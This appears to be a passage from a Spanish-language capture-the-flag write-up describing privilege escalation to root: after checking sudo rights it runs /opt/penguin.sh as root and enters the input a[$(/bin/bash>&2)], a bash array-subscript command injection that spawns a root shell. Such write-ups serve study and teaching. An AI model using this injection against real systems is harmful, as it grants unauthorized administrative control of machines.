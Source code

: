 Ahora que ya somos ruben vamos a ver si podemos conseguir los poermisios de root.
```
sudo -l
```
![alt text](image-16.png)

Vamos a ver que contiene el archivo que se puede ejecutar como root.
```
cat /opt/penguin.sh
```
![alt text](image-17.png)

Vamos a ejecutar el archivo y en la ejecucion introduciremos lo siguiente.
```
sudo /usr/bin/bash /opt/penguin.sh

a[$(/bin/bash>&2)]
```
![alt text](image-18.png)